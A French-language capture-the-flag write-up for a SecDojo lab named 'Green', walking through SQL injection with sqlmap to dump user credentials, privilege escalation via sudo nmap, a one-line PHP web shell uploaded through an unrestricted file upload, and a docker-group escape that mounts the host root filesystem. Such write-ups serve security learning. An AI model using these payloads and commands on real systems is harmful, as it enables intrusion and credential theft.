


# SecDojo: Green


- Ce challenge se compose de deux machines : `upload` et `login`.


## Scan des machines

Je réalise un scan sur les deux machines.


## Login

### Accès à la page de connexion

Je commence par la première, `login`. En accédant au navigateur, je tombe sur la page de connexion.


### Détection de la vulnérabilité SQLi

La première chose qui me vient à l'esprit est de vérifier la présence d'une vulnérabilité `SQLi`. Après un test simple avec un caractère `'`, je confirme que cette vulnérabilité est effectivement présente.


### SQLi

J'utilise ensuite SQLmap pour automatiser l'exploitation de cette vulnérabilité.

```bash 
sqlmap -r req.req   --level=4 --dbs --threads 10
```


```bash 
sqlmap -r req.req   --level=4 -D credentials --tables --threads 10
```


```bash
sqlmap -r req.req   --level=4 -D credentials -T users --dump --threads 10
```


Grâce à cet outil, je parviens à extraire la base de données et obtenir les informations d'identification d'un utilisateur `green`, que je peux utiliser pour me connecter via SSH à la machine.

### Accès SSH et Escalade de privilège


Une fois connecté, je constate que l'utilisateur a la possibilité d'exécuter `nmap` avec des privilèges sudo. J'exploite cette situation pour obtenir les droits root sur la machine.


## Upload

### Analyse du service de téléchargement

Après avoir pris le contrôle de la machine `login`, je passe à l'attaque de la seconde machine, `upload`.
Je découvre rapidement que la machine est vulnérable à une attaque de type file upload.


### Téléchargement de fichiers malveillants

Cette vulnérabilité me permet de télécharger des fichiers sur le serveur sans restrictions adéquates.


Je teste cette fonctionnalité en téléchargeant un fichier PHP malveillant. Mon objectif est de vérifier si je peux utiliser cette faille pour obtenir un accès à distance au serveur. Pour ce faire, je prépare un fichier PHP simple, qui me permettra d'exécuter des commandes sur le serveur.

```php
<?=`$_GET[0]`?> 
```


Oubien en téléchargeant un script PHP pour un reverse shell


je me connect en tant que `green`


### Escalade de privilèges via Docker

Je constate ensuite que l'utilisateur green fait partie du groupe docker. Je décide d'exploiter cette situation pour obtenir les privilèges root sur la machine.

En utilisant les permissions du groupe docker, je vais créer un conteneur Docker avec un accès total au système de fichiers hôte. Cela me permettra de monter le répertoire racine (/) du système de la machine cible à l'intérieur du conteneur et d'accéder à tout le système en tant que root

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```



